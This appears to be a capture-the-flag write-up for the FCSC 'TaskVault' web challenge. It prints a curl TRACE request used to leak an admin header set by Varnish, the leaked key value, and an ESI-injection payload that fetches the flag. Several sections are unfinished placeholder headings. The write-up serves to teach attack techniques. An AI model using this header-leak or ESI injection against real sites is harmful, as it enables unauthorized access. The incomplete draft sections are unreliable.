






# [TaskVault](https://taskvault.fcsc.fr/) [WEB]

## Discovering

We are given a login page.



We don't have an account and we can't create one since the register page is not accessible.

## Finding a way to register

We are given the projects files so we can go through them to see if we can find any clue.

TaskVault is an Express application that is served under an Apache server which is served under a Varnish server.

In the Varnish configuration, we can find two backends.

```
backend default {
  .host = "taskvault-apache2";
  .port = "8000";
}

backend flag_backend {
  .host = "taskvault-app";
  .port = "1337";
}
```

While reading the configuration file we can find these lines.

```
sub vcl_recv {
  if (req.url == "/") {
    set req.http.X-Admin-Key = "${ADMIN_KEY}";
  }

  return(pass);
}
```

Here, we learn that the Varnish server automatically adds the `X-Admin-Key` header to the request when the URL is `/`. This is required by the Express application to access the web application.

```javascript
app.use((req, res, next) => {
  const adminKey = req.headers["x-admin-key"];

  if (!adminKey || adminKey !== process.env.ADMIN_KEY) {
    return res.status(403).json({ error: "Unauthorized access" });
  }

  next();
});
```

Let's move on to the Apache configuration file.

```
<VirtualHost *:8000>
  TraceEnable on
  ProxyPass / http://taskvault-app:3000/
  ProxyPassReverse / http://taskvault-app:3000/
</VirtualHost>
```

Pretty simple but we can note something very interesting : `TraceEnable on`.

According to [the Apache documentation](https://httpd.apache.org/docs/2.4/mod/core.html#traceenable), the `TraceEnable` directive allows us to enable or disable the TRACE method.

The [TRACE method](https://developer.mozilla.org/docs/Web/HTTP/Reference/Methods/TRACE) is used for diagnostic purposes and can be exploited to perform Cross-Site Tracing (XST) attacks.

In our case, we can use it to read the `X-Admin-Key` header that is set by the Varnish server by also setting the [`Max-Forwards` header](https://developer.mozilla.org/docs/Web/HTTP/Reference/Headers/Max-Forwards) to `0` to prevent the request from being forwarded to the backend.

```bash
curl -v -X TRACE -H "Max-Forwards: 0" https://taskvault.fcsc.fr
```

```
TRACE / HTTP/1.1
host: taskvault.fcsc.fr
user-agent: curl/8.7.1
accept: */*
max-forwards: 0
X-Forwarded-For: 46.193.4.24, 51.77.135.65
Via: 1.1 taskvault-varnish (Varnish/7.6)
X-Admin-Key: 6d02ed57299292a47615254957d073cc75cc7855248684960946838c1f786081
X-Varnish: 3789235
```

We can see that we received the `X-Admin-Key` header in the response.

Now, we can use this key to access the web application.
Since I don't want to use `curl` to interact with the web application, I decided to use [Proxyman](https://proxyman.com/) to intercept the requests and automatically add the `X-Admin-Key` header by using some scripting.



We can now go to <https://taskvault.fcsc.fr/register> and create an account.

Once logged in, we can see that we have access a dashboard where we can add, update and delete personal notes.



---

## insert code concerning ESI

---

## insert code knowing that we can probably inject ESI through the EJS template

Regex strips all the following characters.

```
&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz
```

---

## remind the infrastructure to retrieve the flag

```
><esi:include src=http://give_me_the_flag/ />
```

Let's send this payload through the form.



At first, it seems like it did nothing.



But if we look at the response, we can see that the payload was executed.



We can now copy the flag and submit the challenge !
